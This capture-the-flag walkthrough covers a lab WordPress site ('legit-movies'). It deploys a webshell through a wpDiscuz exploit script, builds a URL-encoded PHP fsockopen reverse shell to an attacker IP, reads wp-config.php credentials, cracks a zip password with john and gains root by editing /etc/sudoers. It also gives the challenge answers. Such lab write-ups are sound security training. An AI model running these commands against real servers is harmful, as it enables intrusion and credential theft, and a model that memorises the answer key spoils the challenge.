## Wordpress Pirates Solution

In this challenge, you are given a Kali VM with pre-installed exploit scripts and an IP address that is known to be hosting a webserver/wordpress site (legit-movies). The goal is to answer the associated challenge questions, which serve to guide the user through the process of attaining access to the webserver through exploitation of a vulnerable Wordpress plugin.

*(Note: If a screenshot utilizes an IP in the url, it is from an older version of the challenge. It has since been replaced with the domain name `legit-movies`.)*

*(Note: Answers are randomly generated for each distribution of the challenge, and will not exactly correspond to those present in this guide.)*

1. Open Firefox ESR and navigate to the webserver
   
   

*(Note: Navigating to the "About" tab reveals information about the site. This includes that the site utilizes the wpDiscuz plugin, that uploads are supposedly prohibited, and that the web server uses custom Access Control Lists for security. These are, of course, hints to solving 3 of the questions (Q2, Q1, and Q4 respectively).)*

1. Navigate to the `http://legit-movies.us/wp-content/uploads/` url to see a list of uploaded files. This directory can be identified either though an internet search based on the reference to file uploads on the 'About' page, or through the use of a site-scanning tool (ex. wpscan).

   

2. Within the `private/` directory, there is a file called `secret-page`. Opening this file reveals the following:

   

3. Appending the `.php` string to the end of the webserver address takes the user to an otherwise hidden page with 'pirated movies'. This is where the answer to the first question is revealed:
   
    *Q1: Find the pirated content hidden on the site. What movie is at the top of the list?:* **Tarzan II**

   

4. Now we begin our exploitation of the webserver. Navigating to the 'About' page informs the user that comments and post ratings are handled by a plugin called 'wpDiscuz'. Investigation of the `Exploits` folder present on the Kali desktop reveals a python script (`49967.py`) specifically geared towards this plugin. Executing the script without flags displays an example execution. Selecting the `-u` flag as the webserver URL and the `-p` flag as a path to any post on the blog will deploy a webshell.

    

   

5. Now the user has access to a webshell, allowing them to remotely execute code on the webserver as Apache2's `www-data` user. However, this webshell is hardly interactive, and the user should now pursue attaining a reverse shell. There a several ways to open a reverse shell, but here is one process:

    a. On the Kali machine, in a terminal, use `netcat` to listen on port `443` for an external connection.

    ```
    $ nc -nvlp 443
    ``` 

    b. Back in the webshell, we are unable to directly open a connection directly (i.e. pasting a url encoded php, bash, or python based reverse shell script will not work). However, there is a workaround in the form of using `echo` to remote create a bash script. To do this, we input the following command to the webshell:
    
    ```
    ?cmd=echo %5C%23!%2Fbin%2Fbash > exploit.sh
    ``` 

    Followed by:

    ```
    ?cmd=echo php+-r+%5C%27%5C%24sock%5C%3Dfsockopen%5C%28%5C%2210.0.0.0%5C%22%2C443%5C%29%5C%3B+exec%5C%28%5C%22%2Fbin%2Fsh+-i+%5C%3C%5C%263+%5C%3E%5C%263+2%5C%3E%5C%263%5C%22%5C%29%5C%3B%5C%27 >> exploit.sh
    ```

    (Replace `10.0.0.0` with the IP address allocated to the Kali machine for your challenge)

    This results in the following script being created on the remote webserver:
    
    

    c. Execute the following command in the webshell:

    ```
    ?cmd=%2Fbin%2Fbash %2E%2fexploit%2Esh
    ```
    
    This results in the terminal window where the `netcat` listener was started picking up a connection, giving us a reverse shell:

    

    d. Execute the following command to make it fully interactive:

    ```
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```

    

6. Through some exploration, the user can eventually discover that the database credentials are located in the `/var/www/wordpress/wp-config.php` file
   
    

7. Use this new access to view the `wp_users` table in the `wordpress` database.

    

    *Q2: What is bodhi's Wordpress password hash?:* **vILFuAVgaP9WP02/S1aVew==**

8. Next, we have to uncover the password of the user `utah`. By checking their `/home/utah/` directory, we see that they've stored their password in what appears to be a `.txt` file. How lucky for us!

    

9.  Hmmmm. It seems the file is not what it appears to be, but may contain a readable `.txt` file. Using the `file` command reveals its true nature:

    

10. `unzip` should do the trick, but attempting it, once again, reveals things are not so easily done. It requires a password to unlock!

    

11. The webserver does not have the means to crack the encryption on the `.zip` archive, but the Kali VM absolutely does. Use `scp` to copy the file from the remote server to the local Kali host (Note: When asked about the fingerprint, say `yes`).

    

    

12. `john` has a utility (`zip2john`) that isolates the hash from a password-protected `.zip` archive:

    

13. We can then run `john` on the hash, making sure to select from our pre-selected wordlist based on commonly used passwords:

    

    

    This reveals that the password to the archive is: `kungfu`

14. It's now simple to open the archive. Just input the password when prompted:

    

    *Q3: What is utah's password?:* **Daisy64**

15. Now we have to find the hash for `bodhi`'s Wordpress account, which is stored in a mysql database on the webserver. However, it doesn't look like `utah` has access to mysql himself:

    

16. `utah` also doesn't have access to `sudo`, and an attempt to change `/etc/passwd` to give the account `mysql` access or put them into the `admins` group does not work. However, editing the `/etc/sudoers` file is possible due to a misconfiguration in the ACL. With this, `utah` can be given root privileges:

    

17. Now, we can open bodhi's `secret.txt` file as root:

    


    *Q4: What is the secret string in bodhi's /home/bodhi/secret.txt file?:* **D738C50281D94FF4**

